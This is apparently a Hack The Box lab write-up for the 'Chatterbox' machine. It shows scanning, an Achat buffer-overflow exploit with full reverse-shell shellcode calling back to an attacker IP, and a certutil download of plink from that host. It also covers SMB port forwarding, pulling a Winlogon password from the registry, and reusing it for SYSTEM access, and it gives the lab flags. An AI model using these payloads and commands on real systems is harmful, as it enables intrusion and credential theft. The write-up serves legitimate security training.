

# Resolution summary

>[!summary]
>- **Achat** is running on high port but **no other information are provided**
>- Achat is vulnerable to a **buffer overflow** vulnerability which allows to get access as Alfred
>- Alfred password is stored within the windows registry
>- Forwarding the local SMB port and trying the reuse Alfred password it is possible to login as Administrator

## Improved skills

- Buffer overflow exploitation
- Enumeration of windows registry searching for credentials
- Port forwarding

## Used tools

- nmap
- masscan
- searchsploit
- msfvenom
- plink.exe
- winexe
- impacket-psexec

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Chatterbox]
└─$ sudo masscan 10.10.10.74 -p- --rate=1000 -e tun0
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-04-18 21:48:04 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 9255/tcp on 10.10.10.74                                   
Discovered open port 9256/tcp on 10.10.10.74
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Chatterbox]
└─$ sudo nmap -p9255,9256 -oN scans/open-ports.txt -Pn 10.10.10.74 -sV -sC -O
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-18 17:52 EDT
Nmap scan report for 10.10.10.74
Host is up (0.050s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

# Enumeration

## Port 9255 & port 9256 (Achat)

No other information provided

# Exploitation

## Achat 0.150 beta7 - Remote Buffer Overflow

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/36025)

Generate a custom shellcode:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Chatterbox/exploit]
└─$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python | grep buf | xclip
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3767 bytes
```

Update the exploit:

```python
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

# Updated the shellcode
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x59\x6c\x79\x58\x32\x62"
buf += "\x4d\x30\x69\x70\x4b\x50\x71\x50\x35\x39\x7a\x45\x6e"
buf += "\x51\x79\x30\x52\x44\x34\x4b\x50\x50\x6c\x70\x44\x4b"
buf += "\x4e\x72\x4a\x6c\x52\x6b\x61\x42\x4a\x74\x74\x4b\x63"
buf += "\x42\x6d\x58\x5a\x6f\x46\x57\x6d\x7a\x4d\x56\x50\x31"
buf += "\x49\x6f\x74\x6c\x6f\x4c\x43\x31\x31\x6c\x4a\x62\x4e"
buf += "\x4c\x6f\x30\x49\x31\x76\x6f\x6a\x6d\x4a\x61\x47\x57"
buf += "\x39\x52\x4b\x42\x30\x52\x31\x47\x44\x4b\x30\x52\x6e"
buf += "\x30\x54\x4b\x6e\x6a\x6d\x6c\x62\x6b\x30\x4c\x7a\x71"
buf += "\x71\x68\x4a\x43\x4d\x78\x5a\x61\x38\x51\x4f\x61\x44"
buf += "\x4b\x62\x39\x6f\x30\x4d\x31\x58\x53\x64\x4b\x30\x49"
buf += "\x6c\x58\x79\x53\x6e\x5a\x4e\x69\x32\x6b\x4c\x74\x44"
buf += "\x4b\x6a\x61\x66\x76\x50\x31\x79\x6f\x56\x4c\x37\x51"
buf += "\x38\x4f\x7a\x6d\x6d\x31\x45\x77\x4f\x48\x67\x70\x30"
buf += "\x75\x58\x76\x49\x73\x73\x4d\x5a\x58\x6f\x4b\x63\x4d"
buf += "\x6e\x44\x51\x65\x67\x74\x6f\x68\x54\x4b\x4e\x78\x6c"
buf += "\x64\x6d\x31\x68\x53\x70\x66\x42\x6b\x6c\x4c\x30\x4b"
buf += "\x72\x6b\x42\x38\x4d\x4c\x69\x71\x37\x63\x54\x4b\x79"
buf += "\x74\x44\x4b\x4b\x51\x5a\x30\x74\x49\x6f\x54\x4f\x34"
buf += "\x4e\x44\x4f\x6b\x6f\x6b\x33\x31\x62\x39\x50\x5a\x32"
buf += "\x31\x6b\x4f\x49\x50\x71\x4f\x71\x4f\x6e\x7a\x64\x4b"
buf += "\x6b\x62\x68\x6b\x74\x4d\x51\x4d\x63\x38\x4d\x63\x30"
buf += "\x32\x4b\x50\x59\x70\x71\x58\x72\x57\x33\x43\x70\x32"
buf += "\x51\x4f\x61\x44\x4f\x78\x70\x4c\x52\x57\x4c\x66\x6b"
buf += "\x57\x79\x6f\x39\x45\x55\x68\x36\x30\x7a\x61\x39\x70"
buf += "\x4d\x30\x4c\x69\x68\x44\x70\x54\x30\x50\x51\x58\x4e"
buf += "\x49\x53\x50\x30\x6b\x59\x70\x4b\x4f\x67\x65\x52\x30"
buf += "\x4e\x70\x30\x50\x62\x30\x31\x30\x6e\x70\x61\x30\x32"
buf += "\x30\x6f\x78\x47\x7a\x4a\x6f\x77\x6f\x37\x70\x4b\x4f"
buf += "\x5a\x35\x52\x77\x51\x5a\x4d\x35\x61\x58\x4a\x6a\x5a"
buf += "\x6a\x5a\x6e\x7a\x6e\x63\x38\x5a\x62\x4d\x30\x49\x71"
buf += "\x37\x4b\x51\x79\x39\x56\x61\x5a\x6e\x30\x70\x56\x4e"
buf += "\x77\x42\x48\x74\x59\x55\x55\x73\x44\x50\x61\x4b\x4f"
buf += "\x37\x65\x62\x65\x57\x50\x74\x34\x5a\x6c\x6b\x4f\x6e"
buf += "\x6e\x4a\x68\x34\x35\x5a\x4c\x42\x48\x5a\x50\x34\x75"
buf += "\x66\x42\x6f\x66\x49\x6f\x78\x55\x32\x48\x43\x33\x70"
buf += "\x6d\x70\x64\x6b\x50\x35\x39\x78\x63\x61\x47\x62\x37"
buf += "\x4f\x67\x4c\x71\x38\x76\x61\x5a\x7a\x72\x4f\x69\x42"
buf += "\x36\x6a\x42\x79\x6d\x43\x36\x67\x57\x31\x34\x4c\x64"
buf += "\x6f\x4c\x5a\x61\x5a\x61\x54\x4d\x31\x34\x6d\x54\x5a"
buf += "\x70\x59\x36\x6d\x30\x4f\x54\x71\x44\x4e\x70\x72\x36"
buf += "\x72\x36\x50\x56\x70\x46\x32\x36\x6e\x6e\x4f\x66\x62"
buf += "\x36\x62\x33\x32\x36\x4f\x78\x42\x59\x68\x4c\x6f\x4f"
buf += "\x71\x76\x6b\x4f\x56\x75\x53\x59\x6b\x30\x50\x4e\x32"
buf += "\x36\x30\x46\x79\x6f\x4e\x50\x70\x68\x4c\x48\x43\x57"
buf += "\x6b\x6d\x73\x30\x49\x6f\x77\x65\x75\x6b\x58\x70\x47"
buf += "\x45\x57\x32\x51\x46\x53\x38\x43\x76\x75\x45\x37\x4d"
buf += "\x75\x4d\x4b\x4f\x36\x75\x4f\x4c\x4b\x56\x73\x4c\x6a"
buf += "\x6a\x75\x30\x59\x6b\x77\x70\x53\x45\x39\x75\x47\x4b"
buf += "\x4d\x77\x4a\x73\x64\x32\x50\x6f\x30\x6a\x6b\x50\x6e"
buf += "\x73\x69\x6f\x57\x65\x41\x41"
...
server_address = ('10.10.10.74', 9256)							# Updated the IP
...
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Chatterbox/exploit]
└─$ python 36025.py
---->{P00F}!

┌──(kali㉿kali)-[~/CTFs/HTB/box/Chatterbox]
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.74] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred
```

# Privilege Escalation

## Local enumeration

User info:

```powershell
C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Windows\system32>net user
net user

User accounts for \\CHATTERBOX

-------------------------------------------------------------------------------
Administrator            Alfred                   Guest                    
The command completed successfully.

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Windows\system32>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192  Mandatory group, Enabled by default, Enabled group
```

Systeminfo:

```powershell
Host Name:                 CHATTERBOX
OS Name:                   Microsoft Windows 7 Professional
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00371-222-9819843-86663
Original Install Date:     12/10/2017, 9:18:19 AM
System Boot Time:          4/18/2021, 5:46:24 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,549 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,449 MB
Virtual Memory: In Use:    646 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\CHATTERBOX
Hotfix(s):                 183 Hotfix(s) Installed.
```

netstat:

```powershell
C:\Windows\system32>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       708
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       364
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       792
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       912
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       464
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       480
  TCP    10.10.10.74:139        0.0.0.0:0              LISTENING       4
  TCP    10.10.10.74:9255       0.0.0.0:0              LISTENING       2708
  TCP    10.10.10.74:9256       0.0.0.0:0              LISTENING       2708
  TCP    10.10.10.74:49158      10.10.14.14:443        ESTABLISHED     2708
  TCP    [::]:135               [::]:0                 LISTENING       708
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       364
  TCP    [::]:49153             [::]:0                 LISTENING       792
  TCP    [::]:49154             [::]:0                 LISTENING       912
  TCP    [::]:49155             [::]:0                 LISTENING       464
  TCP    [::]:49156             [::]:0                 LISTENING       480
  UDP    0.0.0.0:123            *:*                                    888
  UDP    0.0.0.0:500            *:*                                    912
  UDP    0.0.0.0:4500           *:*                                    912
  UDP    0.0.0.0:5355           *:*                                    1164
  UDP    10.10.10.74:137        *:*                                    4
  UDP    10.10.10.74:138        *:*                                    4
  UDP    10.10.10.74:1900       *:*                                    3348
  UDP    10.10.10.74:9256       *:*                                    2708
  UDP    127.0.0.1:1900         *:*                                    3348
  UDP    127.0.0.1:52363        *:*                                    3348
  UDP    [::]:123               *:*                                    888
  UDP    [::]:500               *:*                                    912
  UDP    [::]:4500              *:*                                    912
  UDP    [::1]:1900             *:*                                    3348
  UDP    [::1]:52362            *:*                                    3348
```

### Alfred Password inside windows registry

```powershell
C:\Program Files>reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
...
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultPassword    REG_SZ    Welcome1!
...
C:\Program Files>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    DefaultPassword    REG_SZ    Welcome1!
```

>[!important]
>Alfred		Welcome1!

## Credential reuse trough SMB

### Forward SMB port

Serve plink and forward SMB port to attacker machine:

```powershell
┌──(kali㉿kali)-[~/…/HTB/box/Chatterbox/exploit]
└─$ sudo python3 -m http.server 80 --directory /opt/post-expl/windows/plink/
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.74 - - [19/Apr/2021 11:26:20] "GET /plink-x86.exe HTTP/1.1" 200 -
```

Download plink binary and forward SMB port:

```powershell
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.14/plink-x86.exe p.exe
certutil -urlcache -f http://10.10.14.14/plink-x86.exe p.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\Windows\Temp>.\p.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.14 -P 222
The server's host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server's ssh-ed25519 key fingerprint is:
ssh-ed25519 255 14:ea:cf:c1:60:20:e3:32:e9:4e:e8:f3:a7:ac:45:bd
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n) y
Using username "pwn".
Linux kali 5.10.0-kali5-amd64 #1 SMP Debian 5.10.24-1kali1 (2021-03-23) x86_64
```

Verify forward port is open:

```powershell
┌──(kali㉿kali)-[~/…/HTB/box/Chatterbox/exploit]
└─$ netstat -polentau | grep 445
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:445           0.0.0.0:*               LISTEN      0          406716     -                    off (0.00/0/0)
tcp6       0      0 ::1:445                 :::*                    LISTEN      0          406715     -                    off (0.00/0/0)
```

### Login reusing known password

```bash
┌──(kali㉿kali)-[~/CTFs/HTB]
└─$ winexe -U administrator%Welcome1! //127.0.0.1 "cmd.exe"
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\administrator

C:\Windows\system32>cd C:\Users\administrator\desktop\
cd C:\Users\administrator\desktop\

C:\Users\Administrator\Desktop>whoami && hostname && type root.txt && ipconfig /all
whoami && hostname && type root.txt && ipconfig /all
chatterbox\administrator
Chatterbox
74cdc56c4855ac66947c5688d496d1fb

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Chatterbox
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-1D-9E
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.74(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{2D51D179-A71E-477A-9248-3AA3D347DCB8}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

┌──(kali㉿kali)-[~/…/HTB/box/Chatterbox/exploit]
└─$ impacket-psexec Administrator:'Welcome1!'@127.0.0.1 -port 445
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 127.0.0.1.....
[*] Found writable share ADMIN$
[*] Uploading file jrxKfOQB.exe
[*] Opening SVCManager on 127.0.0.1.....
[*] Creating service oaGA on 127.0.0.1.....
[*] Starting service oaGA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami && hostname
nt authority\system
Chatterbox
```



# Trophy

>[!quote]
> Never tell everything you know...
> 
> \- Roger H. Lincoln

>[!success]
>**User.txt**
>26c436df3e84aad4db99e292e9c2dfcd

>[!success]
>**Root.txt**
>74cdc56c4855ac66947c5688d496d1fb

